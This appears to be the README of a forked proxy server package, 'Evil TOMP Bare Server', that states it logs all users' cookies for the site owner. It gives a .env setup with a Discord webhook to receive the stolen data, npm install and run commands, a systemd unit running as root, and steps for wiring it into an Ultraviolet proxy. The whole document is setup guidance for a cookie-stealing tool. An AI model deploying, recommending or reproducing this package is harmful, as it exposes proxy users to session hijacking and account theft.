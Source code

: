 # Evil TOMP Bare Server

This repository implements the TompHTTP bare server. See the specification [here](https://github.com/tomphttp/specifications/blob/master/BareServer.md).

This also logs all your cookies for the site owner.

## Extra Setup

Make a .env file that looks like this:

```
WEBHOOK="https://discord.com/api/webhooks/10/T0k3n"
```

##  

## Upgrading

A guide for updating from v1 to v2 can be found [here](./docs/V2-UPGRADE-GUIDE.md).

## Usage

We provide a command-line interface for creating a server.

For more features, specify the `--help` option when running the CLI.

## Quickstart

### Program

1. Install Bare Server Node globally

```sh
npm install --global bare-server-evil
```

2. Start the server

```sh
npx bare-server-evil
```

Optionally start the server localhost:8080:

```sh
npx bare-server-evil --port 8008 --host localhost
```

### Systemd

```system
[Unit]
Description=Evil Bare Server

Wants=network.target
After=syslog.target network-online.target

[Service]
User=root
Group=root
Type=simple
Environment="PORT=8008" # possible put webhook here too?
ExecStart=/path/bare-server-evil/bin.js
KillMode=process
Restart=on-failure
RestartSec=5s

[Install]
WantedBy=multi-user.target
```

## Hook Up With UV

Just tweak the config to point to the new bare server, and (if you want to save on resources) disable the internal bare sever in UV.

## Credit

See [the original](https://github.com/tomphttp/bare-server-node/).

